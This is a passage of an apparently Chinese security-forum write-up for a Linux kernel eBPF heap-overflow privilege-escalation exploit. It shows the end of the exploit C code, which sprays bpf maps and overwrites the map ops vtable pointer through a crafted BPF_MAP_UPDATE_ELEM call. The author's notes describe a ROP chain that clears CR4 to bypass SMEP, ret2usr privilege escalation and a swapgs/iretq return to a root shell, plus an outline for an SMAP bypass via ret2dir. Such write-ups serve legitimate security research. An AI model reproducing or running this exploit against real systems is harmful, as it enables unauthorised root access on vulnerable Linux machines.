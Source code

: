 ```c
    for(int i=0;i<N;i++)
    {
        printf("map fd:%d\n",spray_map_fd[i]);
    }
    #endif

    /*堆溢出覆盖ops虚表指针*/
    attr2->map_fd = ret;
    attr2->value = value;
    attr2->value_size = 0x40;
    attr2->key = 0;
    attr2->flags = 2;
    syscall(__NR_bpf,BPF_MAP_UPDATE_ELEM,attr2,0x30);

    for(int i=0;i<N;i++)
    {
        close(spray_map_fd[i]);
    }
    printf("close over!\n");
    getchar();      //防止我们的内存被回收掉。
    return 0;
}
```

个人觉得我写的这个比网上的exp要略微优雅一些（bypass smep）

效果：
![](https://bbs.pediy.com/upload/attach/202102/876323_WHQBW8Y4CKH439V.jpg)

几个关键点：

- 作为union的attr成员不要直接做赋值，分配的空间上很可能会爆段错误，所以我选择写成一个constructor提前分配固定的空间，这样就不会在赋值的时候出错。（这个当时踩了一下坑）
- main函数结束以后，exit_group在销毁当前进程的时候会对所有申请出来的map做回收，也会调用map_release，但这个是不能用的，因为当我们mmap出一段空间放置fake vtable（fake ops），这段空间会在exit的时候提前于map_release被回收，导致出现访问错误。（这里踩了好一会儿的坑）
- 整个攻击流程是一个only bypass smep的想法，rop劫持cr4然后ret2usr 提升权限，最后 ```swapgs; iretq``` 着陆用户态起shell，成功率可以说百分百。

### 一个bypass smap的想法

实际上本例我认为还可以做到一个smap bypass，说一下想法orz。

注意到一开始的时候，我们使用了这样一条在内核中常用的栈迁移gadgets：```xchg eax esp; ret``` 原本的想法是将其直接放到用户态mmap出来的fake ops上。但是这样是没法bypass smap的，因为涉及到向用户态取数据。

但是，如果我们借用ret2dir的思想，在用户态大量mmap喷射内存到phymaps上，然后将spray出来的空间填上我们的gadgets，然后在内核态找到phymaps，那么就可以直接从内核态取数据了（gadgets），这样就实现了一个smap的bypass～





